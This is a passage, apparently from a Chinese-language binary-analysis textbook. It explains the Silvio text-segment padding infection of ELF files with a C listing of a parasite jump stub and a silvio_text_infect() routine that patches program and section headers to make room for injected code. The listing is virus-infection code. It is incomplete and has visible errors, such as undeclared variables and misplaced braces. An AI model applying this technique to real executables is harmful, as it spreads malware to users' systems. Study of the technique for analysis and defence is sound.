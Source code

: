 一个文本段填充感染(也称为 Silvio 感染)可以通过一些示例代码来最好地演示，在这里我们看到如何在插入实际的寄生虫代码之前正确地调整 ELF 头。

#### 调整 ELF 头

```sh
#define JMP_PATCH_OFFSET 1 // how many bytes into the shellcode do we patch
/* movl $addr, %eax; jmp *eax; */
char parasite_shellcode[] =
        "\xb8\x00\x00\x00\x00"      
        "\xff\xe0"                  
;

int silvio_text_infect(char *host, void *base, void *payload, size_t host_len, size_t parasite_len)
{
        Elf64_Addr o_entry;
        Elf64_Addr o_text_filesz;
        Elf64_Addr parasite_vaddr;
        uint64_t end_of_text;
        int found_text;

        uint8_t *mem = (uint8_t *)base;
        uint8_t *parasite = (uint8_t *)payload;

        Elf64_Ehdr *ehdr = (Elf64_Ehdr *)mem;
        Elf64_Phdr *phdr = (Elf64_Phdr *)&mem[ehdr->e_phoff];
        Elf64_Shdr *shdr = (Elf64_Shdr *)&mem[ehdr->e_shoff];

        /*
         * Adjust program headers
         */
        for (found_text = 0, i = 0; i < ehdr->e_phnum; i++) {
                if (phdr[i].p_type == PT_LOAD) {
                        if (phdr[i].p_offset == 0) {

                                o_text_filesz = phdr[i].p_filesz;
                                end_of_text = phdr[i].p_offset + phdr[i].p_filesz;
                                parasite_vaddr = phdr[i].p_vaddr + o_text_filesz;

                                phdr[i].p_filesz += parasite_len;
                                phdr[i].p_memsz += parasite_len;

                                for (j = i + 1; j < ehdr->e_phnum; j++)
                                        if (phdr[j].p_offset > phdr[i].p_offset + o_text_filesz)
                                                phdr[j].p_offset += PAGE_SIZE;

                                }
                                break;
                        }
        }
        for (i = 0; i < ehdr->e_shnum; i++) {
                if (shdr[i].sh_addr > parasite_vaddr)
                        shdr[i].sh_offset += PAGE_SIZE;
                else
                if (shdr[i].sh_addr + shdr[i].sh_size == parasite_vaddr)
                        shdr[i].sh_size += parasite_len;
        }

    /*
      * NOTE: Read insert_parasite() src code next
         */
        insert_parasite(host, parasite_len, host_len,
                        base, end_of_text, parasite, JMP_PATCH_OFFSET);
        return 0;
}
```